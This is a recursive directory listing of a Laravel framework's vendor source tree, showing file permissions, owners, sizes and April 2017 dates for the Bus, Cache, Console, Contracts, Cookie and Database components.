/var/www/laravel/vendor/laravel/framework/src/Illuminate/Bus:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 1.3K Apr  3  2017 BusServiceProvider.php
-rw-r--r--  1 www-data www-data 5.2K Apr  3  2017 Dispatcher.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 Queueable.php
-rw-r--r--  1 www-data www-data  851 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Cache:
total 124K
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data 2.6K Apr  3  2017 ApcStore.php
-rwxr-xr-x  1 www-data www-data 1.9K Apr  3  2017 ApcWrapper.php
-rw-r--r--  1 www-data www-data 2.2K Apr  3  2017 ArrayStore.php
-rwxr-xr-x  1 www-data www-data 7.3K Apr  3  2017 CacheManager.php
-rwxr-xr-x  1 www-data www-data  963 Apr  3  2017 CacheServiceProvider.php
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Console
-rwxr-xr-x  1 www-data www-data 7.4K Apr  3  2017 DatabaseStore.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
-rwxr-xr-x  1 www-data www-data 6.2K Apr  3  2017 FileStore.php
-rwxr-xr-x  1 www-data www-data 3.0K Apr  3  2017 MemcachedConnector.php
-rwxr-xr-x  1 www-data www-data 5.3K Apr  3  2017 MemcachedStore.php
-rwxr-xr-x  1 www-data www-data 1.8K Apr  3  2017 NullStore.php
-rw-r--r--  1 www-data www-data 3.0K Apr  3  2017 RateLimiter.php
-rwxr-xr-x  1 www-data www-data 6.1K Apr  3  2017 RedisStore.php
-rw-r--r--  1 www-data www-data 4.0K Apr  3  2017 RedisTaggedCache.php
-rwxr-xr-x  1 www-data www-data  13K Apr  3  2017 Repository.php
-rw-r--r--  1 www-data www-data  799 Apr  3  2017 RetrievesMultipleKeys.php
-rw-r--r--  1 www-data www-data 2.1K Apr  3  2017 TagSet.php
-rw-r--r--  1 www-data www-data  365 Apr  3  2017 TaggableStore.php
-rw-r--r--  1 www-data www-data 1.9K Apr  3  2017 TaggedCache.php
-rwxr-xr-x  1 www-data www-data 1.1K Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Cache/Console:
total 24K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.8K Apr  3  2017 CacheTableCommand.php
-rwxr-xr-x 1 www-data www-data 2.3K Apr  3  2017 ClearCommand.php
-rwxr-xr-x 1 www-data www-data 1.2K Apr  3  2017 ForgetCommand.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 stubs

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Cache/Console/stubs:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  637 Apr  3  2017 cache.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Cache/Events:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  741 Apr  3  2017 CacheEvent.php
-rw-r--r-- 1 www-data www-data  493 Apr  3  2017 CacheHit.php
-rw-r--r-- 1 www-data www-data   91 Apr  3  2017 CacheMissed.php
-rw-r--r-- 1 www-data www-data   92 Apr  3  2017 KeyForgotten.php
-rw-r--r-- 1 www-data www-data  676 Apr  3  2017 KeyWritten.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Config:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 3.0K Apr  3  2017 Repository.php
-rwxr-xr-x  1 www-data www-data  820 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Console:
total 72K
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data 6.3K Apr  3  2017 Application.php
-rwxr-xr-x  1 www-data www-data  15K Apr  3  2017 Command.php
-rw-r--r--  1 www-data www-data 1.3K Apr  3  2017 ConfirmableTrait.php
-rw-r--r--  1 www-data www-data  306 Apr  3  2017 DetectsApplicationNamespace.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
-rw-r--r--  1 www-data www-data 5.5K Apr  3  2017 GeneratorCommand.php
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 OutputStyle.php
-rw-r--r--  1 www-data www-data 4.4K Apr  3  2017 Parser.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Scheduling
-rwxr-xr-x  1 www-data www-data 1.2K Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Console/Events:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  426 Apr  3  2017 ArtisanStarting.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Console/Scheduling:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Apr  3  2017 CacheMutex.php
-rw-r--r-- 1 www-data www-data 2.9K Apr  3  2017 CallbackEvent.php
-rw-r--r-- 1 www-data www-data 2.1K Apr  3  2017 CommandBuilder.php
-rw-r--r-- 1 www-data www-data  15K Apr  3  2017 Event.php
-rw-r--r-- 1 www-data www-data 8.0K Apr  3  2017 ManagesFrequencies.php
-rw-r--r-- 1 www-data www-data  660 Apr  3  2017 Mutex.php
-rw-r--r-- 1 www-data www-data 3.7K Apr  3  2017 Schedule.php
-rw-r--r-- 1 www-data www-data 1.3K Apr  3  2017 ScheduleFinishCommand.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 ScheduleRunCommand.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Container:
total 56K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 5.7K Apr  3  2017 BoundMethod.php
-rwxr-xr-x  1 www-data www-data  32K Apr  3  2017 Container.php
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 ContextualBindingBuilder.php
-rwxr-xr-x  1 www-data www-data  790 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts:
total 128K
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Auth
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Broadcasting
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Bus
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Cache
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Config
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Console
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Container
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Cookie
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Database
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Debug
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Encryption
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Filesystem
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Foundation
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Hashing
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Http
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Logging
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Mail
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Notifications
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Pagination
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Pipeline
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Queue
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Redis
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Routing
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Session
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Support
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Translation
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Validation
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 View
-rw-r--r--  1 www-data www-data  749 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Auth:
total 48K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Access
-rw-r--r--  1 www-data www-data  948 Apr  3  2017 Authenticatable.php
-rw-r--r--  1 www-data www-data  414 Apr  3  2017 CanResetPassword.php
-rw-r--r--  1 www-data www-data  389 Apr  3  2017 Factory.php
-rw-r--r--  1 www-data www-data  966 Apr  3  2017 Guard.php
-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 PasswordBroker.php
-rw-r--r--  1 www-data www-data  248 Apr  3  2017 PasswordBrokerFactory.php
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 StatefulGuard.php
-rw-r--r--  1 www-data www-data  635 Apr  3  2017 SupportsBasicAuth.php
-rw-r--r--  1 www-data www-data 1.4K Apr  3  2017 UserProvider.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Auth/Access:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  297 Apr  3  2017 Authorizable.php
-rw-r--r-- 1 www-data www-data 2.5K Apr  3  2017 Gate.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Broadcasting:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  761 Apr  3  2017 Broadcaster.php
-rw-r--r--  1 www-data www-data  242 Apr  3  2017 Factory.php
-rw-r--r--  1 www-data www-data  217 Apr  3  2017 ShouldBroadcast.php
-rw-r--r--  1 www-data www-data  117 Apr  3  2017 ShouldBroadcastNow.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Bus:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  677 Apr  3  2017 Dispatcher.php
-rw-r--r--  1 www-data www-data  287 Apr  3  2017 QueueingDispatcher.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Cache:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  230 Apr  3  2017 Factory.php
-rw-r--r--  1 www-data www-data 2.6K Apr  3  2017 Repository.php
-rw-r--r--  1 www-data www-data 1.9K Apr  3  2017 Store.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Config:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 Repository.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Console:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  406 Apr  3  2017 Application.php
-rw-r--r--  1 www-data www-data 1.1K Apr  3  2017 Kernel.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Container:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  128 Apr  3  2017 BindingResolutionException.php
-rw-r--r--  1 www-data www-data 3.6K Apr  3  2017 Container.php
-rw-r--r--  1 www-data www-data  463 Apr  3  2017 ContextualBindingBuilder.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Cookie:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 Factory.php
-rw-r--r--  1 www-data www-data  548 Apr  3  2017 QueueingFactory.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Database:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  589 Apr  3  2017 ModelIdentifier.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Debug:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  759 Apr  3  2017 ExceptionHandler.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Encryption:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  133 Apr  3  2017 DecryptException.php
-rw-r--r--  1 www-data www-data  133 Apr  3  2017 EncryptException.php
-rw-r--r--  1 www-data www-data  474 Apr  3  2017 Encrypter.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Events:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 1.8K Apr  3  2017 Dispatcher.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Filesystem:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  247 Apr  3  2017 Cloud.php
-rw-r--r--  1 www-data www-data  264 Apr  3  2017 Factory.php
-rw-r--r--  1 www-data www-data  124 Apr  3  2017 FileNotFoundException.php
-rw-r--r--  1 www-data www-data 3.6K Apr  3  2017 Filesystem.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Foundation:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 2.0K Apr  3  2017 Application.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Hashing:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  775 Apr  3  2017 Hasher.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Http:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  880 Apr  3  2017 Kernel.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Logging:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 2.2K Apr  3  2017 Log.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Mail:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  722 Apr  3  2017 MailQueue.php
-rw-r--r--  1 www-data www-data  646 Apr  3  2017 Mailable.php
-rw-r--r--  1 www-data www-data  653 Apr  3  2017 Mailer.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Notifications:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  612 Apr  3  2017 Dispatcher.php
-rw-r--r--  1 www-data www-data  770 Apr  3  2017 Factory.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Pagination:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  553 Apr  3  2017 LengthAwarePaginator.php
-rw-r--r--  1 www-data www-data 2.2K Apr  3  2017 Paginator.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Pipeline:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  294 Apr  3  2017 Hub.php
-rw-r--r--  1 www-data www-data  759 Apr  3  2017 Pipeline.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Queue:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  452 Apr  3  2017 EntityNotFoundException.php
-rw-r--r--  1 www-data www-data  259 Apr  3  2017 EntityResolver.php
-rw-r--r--  1 www-data www-data  259 Apr  3  2017 Factory.php
-rw-r--r--  1 www-data www-data 2.0K Apr  3  2017 Job.php
-rw-r--r--  1 www-data www-data  672 Apr  3  2017 Monitor.php
-rw-r--r--  1 www-data www-data 2.2K Apr  3  2017 Queue.php
-rw-r--r--  1 www-data www-data  357 Apr  3  2017 QueueableCollection.php
-rw-r--r--  1 www-data www-data  208 Apr  3  2017 QueueableEntity.php
-rw-r--r--  1 www-data www-data   79 Apr  3  2017 ShouldQueue.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Redis:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  261 Apr  3  2017 Factory.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Routing:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  447 Apr  3  2017 BindingRegistrar.php
-rw-r--r--  1 www-data www-data 2.5K Apr  3  2017 Registrar.php
-rw-r--r--  1 www-data www-data 3.8K Apr  3  2017 ResponseFactory.php
-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 UrlGenerator.php
-rw-r--r--  1 www-data www-data  325 Apr  3  2017 UrlRoutable.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Session:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 3.1K Apr  3  2017 Session.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Support:
total 32K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data  184 Apr  3  2017 Arrayable.php
-rw-r--r--  1 www-data www-data  186 Apr  3  2017 Htmlable.php
-rwxr-xr-x  1 www-data www-data  241 Apr  3  2017 Jsonable.php
-rw-r--r--  1 www-data www-data 2.0K Apr  3  2017 MessageBag.php
-rwxr-xr-x  1 www-data www-data  236 Apr  3  2017 MessageProvider.php
-rwxr-xr-x  1 www-data www-data  197 Apr  3  2017 Renderable.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Translation:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  916 Apr  3  2017 Translator.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/Validation:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 Factory.php
-rw-r--r--  1 www-data www-data  204 Apr  3  2017 ValidatesWhenResolved.php
-rw-r--r--  1 www-data www-data  842 Apr  3  2017 Validator.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Contracts/View:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 1.9K Apr  3  2017 Factory.php
-rw-r--r--  1 www-data www-data  431 Apr  3  2017 View.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Cookie:
total 28K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data 4.3K Apr  3  2017 CookieJar.php
-rwxr-xr-x  1 www-data www-data  505 Apr  3  2017 CookieServiceProvider.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Middleware
-rwxr-xr-x  1 www-data www-data  902 Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Cookie/Middleware:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  970 Apr  3  2017 AddQueuedCookiesToResponse.php
-rw-r--r-- 1 www-data www-data 4.1K Apr  3  2017 EncryptCookies.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database:
total 156K
drwxr-xr-x 11 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Capsule
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Concerns
-rwxr-xr-x  1 www-data www-data  30K Apr  3  2017 Connection.php
-rwxr-xr-x  1 www-data www-data 3.3K Apr  3  2017 ConnectionInterface.php
-rwxr-xr-x  1 www-data www-data 1.9K Apr  3  2017 ConnectionResolver.php
-rwxr-xr-x  1 www-data www-data  570 Apr  3  2017 ConnectionResolverInterface.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Connectors
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 Console
-rwxr-xr-x  1 www-data www-data 8.9K Apr  3  2017 DatabaseManager.php
-rwxr-xr-x  1 www-data www-data 2.9K Apr  3  2017 DatabaseServiceProvider.php
-rw-r--r--  1 www-data www-data  713 Apr  3  2017 DetectsDeadlocks.php
-rw-r--r--  1 www-data www-data  868 Apr  3  2017 DetectsLostConnections.php
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 Eloquent
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Events
-rwxr-xr-x  1 www-data www-data 4.9K Apr  3  2017 Grammar.php
-rwxr-xr-x  1 www-data www-data 2.1K Apr  3  2017 MigrationServiceProvider.php
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Migrations
-rwxr-xr-x  1 www-data www-data 2.2K Apr  3  2017 MySqlConnection.php
-rwxr-xr-x  1 www-data www-data 1.7K Apr  3  2017 PostgresConnection.php
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 Query
-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 QueryException.php
-rwxr-xr-x  1 www-data www-data 2.2K Apr  3  2017 README.md
-rwxr-xr-x  1 www-data www-data 1.3K Apr  3  2017 SQLiteConnection.php
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Schema
-rwxr-xr-x  1 www-data www-data 2.3K Apr  3  2017 Seeder.php
-rwxr-xr-x  1 www-data www-data 2.7K Apr  3  2017 SqlServerConnection.php
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 composer.json

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Capsule:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data 5.2K Apr  3  2017 Manager.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Concerns:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 2.5K Apr  3  2017 BuildsQueries.php
-rw-r--r--  1 www-data www-data 6.1K Apr  3  2017 ManagesTransactions.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Connectors:
total 56K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data 8.1K Apr  3  2017 ConnectionFactory.php
-rwxr-xr-x  1 www-data www-data 3.4K Apr  3  2017 Connector.php
-rwxr-xr-x  1 www-data www-data  240 Apr  3  2017 ConnectorInterface.php
-rwxr-xr-x  1 www-data www-data 5.0K Apr  3  2017 MySqlConnector.php
-rwxr-xr-x  1 www-data www-data 5.0K Apr  3  2017 PostgresConnector.php
-rwxr-xr-x  1 www-data www-data 1.3K Apr  3  2017 SQLiteConnector.php
-rwxr-xr-x  1 www-data www-data 4.6K Apr  3  2017 SqlServerConnector.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Console:
total 16K
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Migrations
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Seeds

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Console/Migrations:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x 1 www-data www-data 1.1K Apr  3  2017 BaseCommand.php
-rwxr-xr-x 1 www-data www-data 1.6K Apr  3  2017 InstallCommand.php
-rwxr-xr-x 1 www-data www-data 3.1K Apr  3  2017 MigrateCommand.php
-rw-r--r-- 1 www-data www-data 3.4K Apr  3  2017 MigrateMakeCommand.php
-rwxr-xr-x 1 www-data www-data 4.3K Apr  3  2017 RefreshCommand.php
-rwxr-xr-x 1 www-data www-data 2.7K Apr  3  2017 ResetCommand.php
-rwxr-xr-x 1 www-data www-data 2.5K Apr  3  2017 RollbackCommand.php
-rw-r--r-- 1 www-data www-data 2.8K Apr  3  2017 StatusCommand.php

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Console/Seeds:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.5K Apr  3  2017 SeedCommand.php
-rw-r--r-- 1 www-data www-data 1.9K Apr  3  2017 SeederMakeCommand.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 stubs

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Console/Seeds/stubs:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  199 Apr  3  2017 seeder.stub

/var/www/laravel/vendor/laravel/framework/src/Illuminate/Database/Eloquent:
total 148K
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Apr  3  2017 ..
-rwxr-xr-x  1 www-data www-data  36K Apr  3  2017 Builder.php
-rwxr-xr-x  1 www-data www-data 8.5K Apr  3  2017 Collection.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Concerns
-rw-r--r--  1 www-data www-data 5.7K Apr  3  2017 Factory.php
-rw-r--r--  1 www-data www-data 5.8K Apr  3  2017 FactoryBuilder.php
-rw-r--r--  1 www-data www-data  900 Apr  3  2017 JsonEncodingException.php
-rwxr-xr-x  1 www-data www-data  137 Apr  3  2017 MassAssignmentException.php
-rw-r--r--  1 www-data www-data  34K Apr  3  2017 Model.php
